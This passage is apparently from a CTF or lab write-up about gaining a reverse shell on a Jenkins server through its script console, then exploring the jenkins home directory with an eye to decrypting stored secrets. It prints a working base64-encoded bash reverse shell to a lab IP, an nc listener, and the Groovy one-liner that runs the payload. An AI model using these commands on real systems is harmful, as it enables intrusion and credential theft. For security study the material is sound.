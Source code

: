 And I start to perform a reverse shell, when I encode the reverse shell payload:
```shell
$ echo -n "bash -c 'bash -i >& /dev/tcp/192.168.56.101/1234 0>&1'" \
> | base64
```
And I open a listener with the `nc` command:
```shell
$ nc -lvnp 1234
```
And I write the following script in the console:
```shell
'bash -c {echo,
YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjU2LjEwMS8xMjM0IDA+JjEn}
|{base64,-d}|{bash,-i}'.execute()
```
Then it works:

![evidence](./static/16-jenkins-reverseshell.png)

## Lateral movement

I start to explore the server with the user `jenkins`, when I check the `jenkins` home in `/var/lib/jenkins`:
```shell
$ jenkins@leeroy:~$ ls -la
```
Then I can see all the configuration files:

![evidence](17-jenkins-config.png)

When I read [how to decrypt Jenkins secrets on Hacktricks](https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security#from-disk), then I can see:
